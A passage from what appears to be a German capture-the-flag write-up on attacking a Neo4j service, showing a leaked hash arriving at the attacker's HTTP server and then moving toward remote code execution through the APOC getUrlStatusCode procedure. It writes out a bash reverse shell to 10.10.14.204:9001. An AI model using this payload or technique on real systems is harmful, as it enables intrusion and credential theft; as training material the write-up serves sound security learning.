 Im HTTP‑Server erscheint sofort:

```
GET /leak=9f54ca... HTTP/1.1
```

![hash leak](Screenshot_2025-05-05_15_19_21.png)

→ Funktioniert. Hash erfolgreich abgegriffen.

---

## 5. RCE mit getUrlStatusCode() via APOC

Wir testen weiter – unser Ziel ist Remote Code Execution (RCE).

Dokumentation zeigt, dass `apoc.custom` genutzt wird. Besonders gefährlich: `custom.getUrlStatusCode()`.

Wir erstellen `shell.sh` mit einer einfachen Bash‑Reverse‑Shell und liefern sie über den bereits laufenden Webserver:

```bash
# shell.sh
bash -i >& /dev/tcp/10.10.14.204/9001 0>&1
```
